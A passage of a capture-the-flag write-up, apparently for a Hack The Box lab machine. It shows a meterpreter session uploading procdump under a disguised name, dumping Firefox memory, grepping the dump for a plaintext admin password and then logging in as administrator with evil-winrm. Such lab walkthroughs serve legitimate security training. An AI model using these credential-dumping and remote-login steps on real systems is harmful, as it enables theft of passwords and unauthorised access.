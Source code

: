 We did not found any password in the browser's password storage. Let us see what
is the process memory.

## procdump

We upload procdump.exe from
[Systinternals](https://docs.microsoft.com/en-us/sysinternals/) and dump the
Firefox process memory before downloading the dump on our machine.

    :::text
    meterpreter > upload procdump.exe 06.exe
    [*] uploading  : procdump.exe -> 06.exe
    [*] Uploaded 467.19 KiB of 467.19 KiB (100.0%): procdump.exe -> 06.exe
    [*] uploaded   : procdump.exe -> 06.exe

    C:\Users\Chase\Documents>.\06.exe -ma 6228
    .\06.exe -ma 6228

    ProcDump v6.00 - Writes process dump files
    Copyright (C) 2009-2013 Mark Russinovich
    Sysinternals - www.sysinternals.com
    With contributions from Andrew Richards

    Writing dump file C:\Users\Chase\Documents\firefox_191106_223459.dmp ...
    Writing 293MB. Estimated time (less than) 9 seconds.
    Dump written.

    meterpreter > download firefox_191106_223459.dmp ./
    [*] Downloading: firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 1.00 MiB of 286.62 MiB (0.35%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 2.00 MiB of 286.62 MiB (0.7%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 3.00 MiB of 286.62 MiB (1.05%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 4.00 MiB of 286.62 MiB (1.4%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 5.00 MiB of 286.62 MiB (1.74%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp

We then `grep` in the dump for some password.

    :::text
    strings firefox_191106_223459.dmp | grep -i password | grep admin -i
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

We can then use the login and password either to connect to the support website
or to the server using the `administrator` account.

    :::text
    evil-winrm  -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
